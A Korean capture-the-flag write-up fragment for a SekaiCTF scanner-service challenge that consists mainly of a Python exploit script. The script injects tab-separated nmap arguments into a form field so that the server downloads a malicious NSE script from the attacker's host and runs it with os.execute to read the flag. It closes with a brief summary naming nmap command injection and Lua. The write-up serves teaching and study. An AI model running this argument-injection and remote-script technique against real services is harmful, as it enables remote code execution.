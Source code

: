 ### 익스플로잇 코드(writeup 코드)

```bash
#!/usr/bin/python3
import requests
import random
import string
import time
import sys
import re

def random_string(length=10):
    return "".join(random.choice(string.ascii_lowercase) for _ in range(length))

if len(sys.argv) < 3:
    print(f"Usage: {sys.argv[0]} <lhost> <lport>")
    exit(1)

TARGET = "http://scanner-service.chals.sekai.team/"
LHOST = sys.argv[1]
LPORT = int(sys.argv[2])
NSE_SCRIPT = "evil.nse"
DOWNLOAD_DIR = "/tmp/" + random_string()

with open(NSE_SCRIPT, "w") as f:
    f.write("os.execute('cat /flag*')")

# download nse script
requests.post(
    TARGET,
    data=f"service={LHOST}:{LPORT} --script http-fetch -Pn --script-args http-fetch.destination={DOWNLOAD_DIR},http-fetch.url={NSE_SCRIPT}".replace(
        " ", "\t"
    ),
)

print("You should now receive a request on your http server")

time.sleep(5)

# execute nse script
response = requests.post(
    TARGET,
    data=f"service={LHOST}:{LPORT} --script={DOWNLOAD_DIR}/{LHOST}/{LPORT}/{NSE_SCRIPT}".replace(
        " ", "\t"
    ),
)

matches = re.search(r"SEKAI\{[^\}]+\}", response.text)
if matches:
    print("Flag:", matches.group(0))
else:
    print("We failed?")

```

## 핵심 정리 (본 문제에서 알아가야할 내용)

- nmap을 이용한 command injection
- lua 언어